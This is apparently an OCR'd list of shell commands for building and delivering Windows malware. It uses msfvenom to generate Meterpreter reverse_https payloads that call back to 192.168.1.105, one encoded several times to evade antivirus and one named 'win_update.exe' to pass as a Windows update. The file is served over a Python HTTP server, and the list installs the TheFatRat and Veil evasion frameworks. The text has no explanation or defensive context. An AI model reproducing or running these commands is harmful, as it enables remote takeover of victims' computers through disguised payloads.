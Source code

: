 msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.105 LPORT=443 -f exe -o ~/payload.exe

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.105 LPORT=443 -e x86/shikata_ga_nai -i 5 -f exe -o payload.exe

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.105 LPORT=443 -f exe -o ~/win_update.exe


python3 -m http.server 8080

http://192.168.1.105:8080/win_update.exe


git clone https://github.com/Screetsec/TheFatRat.git
cd TheFatRat
chmod +x setup.sh
sudo ./setup.sh

sudo ./fatrat

cd ~
git clone https://github.com/Veil-Framework/Veil.git
cd Veil
sudo ./config/setup.sh --force

sudo veil

sudo ln -s /home/ray_king11/Veil/Veil.py /usr/local/bin/veil


sudo dpkg --add-architecture i386
sudo mkdir -pm755 /etc/apt/keyrings
sudo wget -O /etc/apt/keyrings/winehq-archive.key https://dl.winehq.org/wine-builds/winehq.key


sudo wget -NP /etc/apt/sources.list.d/ https://dl.winehq.org/wine-builds/debian/dists/bookworm/winehq-bookworm.sources

sudo apt update

sudo apt install --install-recommends winehq-stable -y






